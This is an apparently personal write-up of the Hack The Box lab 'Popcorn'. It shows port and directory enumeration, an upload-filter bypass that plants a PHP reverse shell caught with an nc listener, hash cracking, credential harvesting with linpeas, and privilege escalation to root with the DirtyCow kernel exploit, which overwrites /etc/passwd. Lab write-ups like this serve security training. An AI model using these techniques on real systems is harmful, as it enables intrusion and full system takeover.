# Popcorn - Medium

Target IP: **10.129.75.211**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.75.211 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.2.12.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Did not follow redirect to http://popcorn.htb/
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigating to web page redirects us to ```popcorn.htb```. Let's add it to our hosts file.

This is just the default successful installation page.



Let's enumerate further.

Directory enumeration gets us back some interesting results.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fy7xighd81]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://popcorn.htb/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://popcorn.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 15ms]
test                    [Status: 200, Size: 47408, Words: 2478, Lines: 655, Duration: 37ms]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 788ms]
torrent                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 6ms]
rename                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 8ms]
                        [Status: 200, Size: 177, Words: 22, Lines: 5, Duration: 7ms]
:: Progress: [87651/87651] :: Job [1/1] :: 3125 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
```

```/test``` is the output of ```phpinfo()```. There are no disabled functions.



```/rename``` let's us know how to interact with the API, which doesn't seem like it's for the main page, as ```index.php``` does not exist.



```/torrent``` leads us to a a new website.


The website has an upload functionality, but before that, we can sign up for an account.



Logging in as the new user account, we can now access the upload functionality.



I first tried to just upload a php shell, but we get back an error saying that this isn't a valid torrent file.



Changing the file extension to ```.torrent``` doesn't work either.

Torrent files don't have magic bytes, so maybe the vector is somewhere else.

I grabbed a valid torrent file from Kali Linux and uploaded it.



There is a section where we can edit the torrent. Clicking on it, we get another upload page where we can upload a picture for the torrent. This seems to be it.



Let's capture this request and alter it.

I changed the ```.php``` file extension to ```.php.jpg```, changed the Content-Type header, and added magic bytes for ```.jpeg```.



After forwarding the request, we see that it has been successfully uploaded.



Refreshing the page, we see that the changes are reflected. Additionally, hovering over the image section gives us the link to the uploaded file on the ```/upload``` directory.



Navigating to the url of the file doesn't give us a connection back for some reason. ```/upload``` has directory listing enabled, and I think it's because our file was stripped of ```.php``` when it was getting renamed.



This is probably where the API function we saw at ```/rename``` comes in handy. We can rename this file again to include the ```.php``` extension.

However, when I tried this, it didn't work.

By the way that our ```.php.jpg``` file got stripped down to ```.jpg```, it probably only counts the string that comes after the last ```.``` as the extension. Maybe we can just submit a ```.php``` have it successfully upload.

Indeed, the file extension is not checked, and our upload is still successful.



We can now see our ```.php``` file at ```/upload```.



After we click on the file, we catch a shell as ```www-data```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fy7xighd81]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.75.211 42321
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 00:00:45 up  5:08,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

There is a ```george``` user that we want to move laterally into.

```
www-data@popcorn:/$ ls -la /home
total 12
drwxr-xr-x  3 root   root   4096 Mar 17  2017 .
drwxr-xr-x 21 root   root   4096 Oct  5 18:52 ..
drwxr-xr-x  3 george george 4096 Oct 26  2023 george
```

But we can still read the user flag.

## Root Flag

There is a zip file in the home directory of ```george```.

```
www-data@popcorn:/home/george$ ls
torrenthoster.zip  user.txt
```

Let's create a copy and extract it.

```
www-data@popcorn:/home/george$ cp torrenthoster.zip /tmp/torrenthoster.zip
```

In the extract, there is an ```.sql``` file.

```
www-data@popcorn:/tmp/torrenthoster/torrenthoster/database$ ls
th_database.sql
```

Reading the file, we can see an entry for ```Admin``` being entered into the ```users``` table, with what seems like a password hash in the third column.

```
INSERT INTO `users` VALUES (3, 'Admin', '1844156d4166d94387f1a4ad031ca5fa', 'admin', 'admin@yourdomain.com', '2007-01-06 21:12:46', '2007-01-06 21:12:46');
```

Hashcat cracks it for us.

```1844156d4166d94387f1a4ad031ca5fa:admin12```

However, trying to authenticate to ```george``` with this password doesn't work.

Running linpeas gets us another set of credentials.

```
╔══════════╣ Searching passwords in config PHP files
/tmp/torrenthoster/torrenthoster/config.php:	$dbpass 	= $CFG->dbPassword;
/tmp/torrenthoster/torrenthoster/config.php:	$dbuser 	= $CFG->dbUserName;
/tmp/torrenthoster/torrenthoster/config.php:  $CFG->dbPassword = "";	//db password
/tmp/torrenthoster/torrenthoster/config.php:  $CFG->dbUserName = "";    //db username
/var/www/torrent/config.php:	$dbpass 	= $CFG->dbPassword;
/var/www/torrent/config.php:	$dbuser 	= $CFG->dbUserName;
/var/www/torrent/config.php:  $CFG->dbPassword = "SuperSecret!!";	//db password
/var/www/torrent/config.php:  $CFG->dbUserName = "torrent";    //db username
```

Let's connect to the database.

```
www-data@popcorn:/home/george$ mysql -u torrent -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 58
Server version: 5.1.37-1ubuntu5.5 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

Hashes are stored in the ```users``` table of the ```torrenthoster``` database.

```
mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| torrenthoster      | 
+--------------------+
2 rows in set (0.00 sec)

mysql> USE torrenthoster;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SHOW TABLES;
+-------------------------+
| Tables_in_torrenthoster |
+-------------------------+
| ban                     | 
| categories              | 
| comments                | 
| log                     | 
| namemap                 | 
| news                    | 
| subcategories           | 
| users                   | 
+-------------------------+
8 rows in set (0.00 sec)

mysql> SELECT * FROM users;
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
| id | userName | password                         | privilege | email                | joined              | lastconnect         |
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
|  3 | Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     | admin@yourdomain.com | 2007-01-06 21:12:46 | 2007-01-06 21:12:46 | 
|  5 | 44yyyy   | dc647eb65e6711e155375218212b3964 | user      | 44y@htb.com          | 2026-10-05 23:31:04 | 2026-10-05 23:31:04 | 
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

However, hashcat can't crack it. I'm really confused now.

The kernel version is quite old. This is vulnerable to DirtyCow.

```
www-data@popcorn:/tmp$ uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```

Let's try this [PoC](https://raw.githubusercontent.com/FireFart/dirtycow/refs/heads/master/dirty.c).

We can transfer the ```.c``` file, compile it on the remote machine, then run it.

It hangs for some reason but the user is still added.

```
www-data@popcorn:/tmp$ gcc -pthread -lcrypt dirty.c -o dirty
www-data@popcorn:/tmp$ chmod +x dirty
www-data@popcorn:/tmp$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
toor:toRYezfMtdVM2:0:0:pwned:/root:/bin/bash

mmap: b78a8000
^C
www-data@popcorn:/tmp$ cat /etc/passwd
toor:toRYezfMtdVM2:0:0:pwned:/root:/bin/bash
mon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
landscape:x:102:105::/var/lib/landscape:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
george:x:1000:1000:George Papagiannopoulos,,,:/home/george:/bin/bash
mysql:x:104:113:MySQL Server,,,:/var/lib/mysql:/bin/false
```

Logging in with the newly added user, we get root access.

This was really a reality check for my methodology. I was used to navigating through configuration files to find password hashes then using that to laterally move into another user account, but in this case, we could have just paid a bit more attention to initial enumeration to directly escalate to ```root```.

```
www-data@popcorn:/tmp$ su - toor
Password: 
toor@popcorn:~# id
uid=0(toor) gid=0(root) groups=0(root)
```

We can proceed to get the user flag from here.

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
